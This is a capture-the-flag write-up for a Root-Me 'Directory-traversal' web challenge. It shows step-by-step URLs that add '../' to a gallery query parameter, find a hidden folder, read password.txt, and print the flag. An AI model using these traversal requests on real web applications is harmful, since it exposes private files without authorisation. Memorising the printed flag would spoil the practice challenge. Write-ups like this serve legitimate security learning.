 ```yaml
---
layout: default
title: Directory-traversal
---
```


Here we can go one step back in the url and see there is `galerie` folder, which gives us `403`, and also the `ch15.php`.

When we click something, it takes us for example to `http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=apps`.

Let's try and do some directory-traversal in the query param, for example, 
`http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=apps/../`

We can see there is `86hwnX2r` folder there, let's go there (this is the hidden folder in galerie I guess)

`http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=apps/../86hwnX2r`

We can see `password.txt`, so let's go to: `/galerie/86hwnX2r/password.txt`

`http://challenge01.root-me.org/web-serveur/ch15/galerie/86hwnX2r/password.txt`

And we get the password!

**Flag:** **_`kcb$!Bx@v4Gs9Ez`_**
